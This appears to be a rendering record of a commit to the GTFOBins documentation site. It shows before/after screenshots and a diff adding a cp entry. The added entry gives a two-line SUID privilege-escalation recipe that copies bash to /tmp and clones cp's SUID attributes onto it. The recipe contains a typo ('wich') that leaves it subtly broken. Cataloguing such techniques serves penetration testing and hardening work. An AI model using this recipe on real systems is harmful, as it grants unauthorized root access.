

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/cp.md, in a window 1280 px wide and 900 px high, scrolled down 784 px. Shown: the top 872 px of the window, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1531 px from its top, so only the background shows below that.

Commit message:
Add copy --attributes-only and  --preserve=all
Create a new binary with SUID privileges

```diff
--- a/_gtfobins/cp.md
+++ b/_gtfobins/cp.md
@@ -18,6 +18,10 @@ functions:
         TF=$(mktemp)
         echo "DATA" > $TF
         ./cp $TF $LFILE
+    - description: This can copy cp attributes and permissions to create a new file with SUID privileges like bash
+      code: |
+        cp /bin/bash /tmp/bash
+        cp --attributes-only --preserve=all `wich cp` /tmp/bash
   sudo:
     - code: |
         LFILE=file_to_write
```
